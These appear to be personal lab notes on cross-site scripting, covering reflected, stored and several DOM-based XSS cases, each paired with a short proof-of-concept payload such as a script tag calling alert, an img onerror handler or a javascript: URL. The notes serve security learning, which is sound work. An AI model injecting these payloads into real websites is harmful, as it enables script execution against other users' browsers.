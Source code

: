 ____

# Reflected XSS into HTML

The value of the **search** request parameter is copied into the HTML document as plain text between tags. 
```js
<script>alert(1)</script> 
```
This input was echoed unmodified in the application's response.


# Stored XSS into HTML 

In the comment section,
```js
<script>alert(1)</script> 
```

# DOM XSS in `document.write` sink using source `location.search`

![[Pasted image 20240803072009.png]]

```html
"><script>alert(1)</script>
```

![[Pasted image 20240803072133.png]]

# DOM XSS in `innerHTML` sink using source `location.search`

Data is read from **location.search** and passed to **element.innerHTML**.

```js
<img src onerror=alert(1)>
```


# DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

The application may be vulnerable to DOM-based link manipulation. Data is read from **location.search** and passed to **jQuery.attr.href**.

```js
javascript:alert(1)
```

![[Pasted image 20240803074347.png]]

